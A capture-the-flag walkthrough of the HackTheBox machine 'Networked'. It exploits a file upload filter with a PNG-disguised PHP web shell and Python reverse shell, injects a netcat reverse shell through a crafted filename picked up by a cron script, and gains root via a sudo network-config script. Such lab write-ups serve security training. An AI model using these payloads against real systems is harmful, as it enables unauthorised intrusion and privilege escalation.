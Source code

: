 #  HTB: Networked Detailed Exploitation  
## Quick Summary  Networked is an Easy difficulty Linux box with vulnerabilities in file upload, leading to code execution, and command injection via a user script, which can be leveraged to execute commands as root.  
## Phase 1: Reconnaissance  **Nmap Scan:** The initial scan identified open ports and services.  ```plaintext nmap -sV -sT -sC -o nmapinitial networked.htb`

**Output:**

- Port 22: SSH (OpenSSH 7.4)
- Port 80: HTTP (Apache 2.4.6 with PHP 5.4.16)

## Phase 2: Web Enumeration

**Gobuster Scan:** We used Gobuster to identify directories.

plaintext



`gobuster -u http://networked.htb/ -w /usr/share/wordlists/dirb/common.txt`

**Interesting Directories:**

- `/uploads`
- `/backup`

**Backup Directory:** Downloaded a tar archive from `/backup` containing the website's files.

plaintext



`wget http://networked.htb/backup/backup.tar mkdir backup cd backup tar xvf ../backup.tar`

**Files Extracted:**

- `index.php`
- `lib.php`
- `photos.php`
- `upload.php`

## Phase 3: Initial Shell as Apache

**File Upload Vulnerability:** The `upload.php` script allowed image uploads but filtered by extension and MIME type.

**Bypassing Filters:**

1. Add PNG magic bytes to a PHP shell.
2. Upload the modified file.

php

Copy code

`<?php  system($_REQUEST['cmd']);  ?>`

**Magic Bytes for PNG:** `89 50 4E 47 0D 0A 1A 0A`

**Steps:**

1. Create a base image (`original.png`).
2. Inject PHP code into a copied image (`test.php.png`).

plaintext



`cp original.png test.php.png echo -e '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<?php system($_REQUEST["cmd"]); ?>' >> test.php.png`

**Result:** Viewing `test.php.png` in the browser executed the PHP code and revealed the user as `apache`.

**Reverse Shell:** Injected a reverse shell payload into another image (`shell.php.png`).

plaintext



`cp original.png shell.php.png echo -e '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<?php system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.xx.xx\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\");\'"); ?>' >> shell.php.png`

- Set up a Netcat listener and uploaded the image to gain a shell as `apache`.

plaintext


`nc -lvnp 1337`

## Phase 4: Shell as Guly

**Command Injection in check_attack.php:** Found `check_attack.php` executed as user `guly` every 3 minutes via a cron job.

**Crontab:**

plaintext



`*/3 * * * * php /home/guly/check_attack.php`

**check_attack.php Contents:**

php


`<?php require '/var/www/html/lib.php'; $path = '/var/www/html/uploads/'; $logpath = '/tmp/attack.log'; $to = 'guly'; $msg= ''; $headers = "X-Mailer: check_attack.php\r\n";  $files = array(); $files = preg_grep('/^([^.])/', scandir($path));  foreach ($files as $key => $value) {     $msg='';      if ($value == 'index.html') {         continue;     }      list ($name,$ext) = getnameCheck($value);     $check = check_ip($name,$value);      if (!($check[0])) {         echo "attack!\n";         file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);          exec("rm -f $logpath");         exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");         echo "rm -f $path$value\n";         mail($to, $msg, $msg, $headers, "-F$value");     } } ?>`

**Exploiting Command Injection:** The script used `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");` to delete files. Injected a reverse shell command by creating a malicious file name.

plaintext



`cd /var/www/html/uploads touch '; nc 10.10.xx.xx 1338 -c bash'`

- Set up another Netcat listener to catch the shell as `guly`.

plaintext


`nc -lvnp 1338`

**Result:** Gained a shell as `guly`.

## Phase 5: Privilege Escalation to Root

**Examining Sudo Privileges:** Found that `guly` can execute `/usr/local/sbin/changename.sh` as root without a password.

plaintext



`sudo -l`

**changename.sh Contents:**

bash


`#!/bin/bash -p  cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF DEVICE=guly0 ONBOOT=no NM_CONTROLLED=no EoF  regexp="^[a-zA-Z0-9_\ /-]+$"  for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do     echo "interface $var:"     read x     while [[ ! $x =~ $regexp ]]; do         echo "wrong input, try again"         echo "interface $var:"         read x     done     echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly done  /sbin/ifup guly0`

**Explanation:**

- **Script Function:** The script creates a network configuration file for the interface `guly0` and then activates it using `ifup guly0`.
- **User Input Validation:** The user input for various network configuration options is validated to allow only alphanumeric characters, slashes, or dashes.
- **Command Injection Vulnerability:** Despite the validation, network configuration scripts on CentOS can be vulnerable to command injection due to the way attribute values are handled. The script reads user input and directly writes it to the configuration file, which is then sourced by the network service, leading to execution of anything after a space.

**Exploiting the Vulnerability:**

- By injecting `/bin/bash` through the NAME parameter, we can execute arbitrary commands as root.

**Steps:**

1. Execute `changename.sh` with elevated privileges.
2. Inject a command through the NAME parameter.

plaintext



`sudo /usr/local/sbin/changename.sh interface NAME: test; bash interface PROXY_METHOD: test interface BROWSER_ONLY: test interface BOOTPROTO: test`

**Result:** The injected command (`bash`) is executed with root privileges, giving us a root shell.

**Verification:**

plaintext



`whoami root id`

## Summary

Through a series of vulnerabilities, including file upload RCE, command injection via filenames, and script exploitation, we escalated our privileges from `apache` to `guly`, and finally to `root`, successfully owning the box
